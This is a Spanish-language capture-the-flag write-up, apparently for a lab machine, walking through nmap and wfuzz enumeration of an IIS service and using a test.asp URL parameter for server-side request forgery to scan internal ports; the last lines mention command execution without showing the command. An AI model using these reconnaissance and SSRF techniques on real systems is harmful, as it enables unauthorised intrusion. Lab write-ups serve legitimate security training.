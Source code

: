 ## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.57
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.57 
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.57 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p62696 10.10.10.57 -oN targeted
```

| Puerto | Servicio   | Que se nos occure? | Que falta? |
| ------ | ---------- | ------------------ | ---------- |
| 62696  | http - IIS | Web, fuzzing, .asp |            |


### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.57:62696
```

Nada muy interresante

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p62696 10.10.10.57 -oN webScan
```

No nos detecta nada

#### Checkear la web por puerto 62696 {-}

Con firefox navigamos en la web para ver lo que es.

La pagina esta under construction y poco mas.


#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ
```

Encontramos un ruta `/backend` pero no se ve nada en firefox. Decidimos fuzzear con la extension `.asp`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ.asp
```

Aqui encontramos un fichero `test.asp` y navigando no dice que no encuentra el parametro `u` que tendria que ser un URL.
Intentamos ver si se connecta a nuestro servidor web

1. Creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos connectar por la web 

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8/test
    ```

Aqui no passa nada. La idea aqui, como solo tiene un puerto avierto seria de explorar si tiene puerto privados usando localhost

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost
```

Aqui ya vemos que el puerto 80 interno de la maquina esta abierto. Decidimos descubrir los puertos abiertos de la maquina con WFUZZ


### Descubrimiento de los puertos abiertos con WFUZZ {-}

Wfuzz permite hacer rangos de numeros con el parametro `-z`

```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

```bash
wfuzz -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Aqui vemos que solo el puerto 80 esta abierto.



Esto functiona. Pero no vemos en la web el output del commando. Solo vemos el codigo de estado (0 si el commando a functionado, 1 si no a functionado)

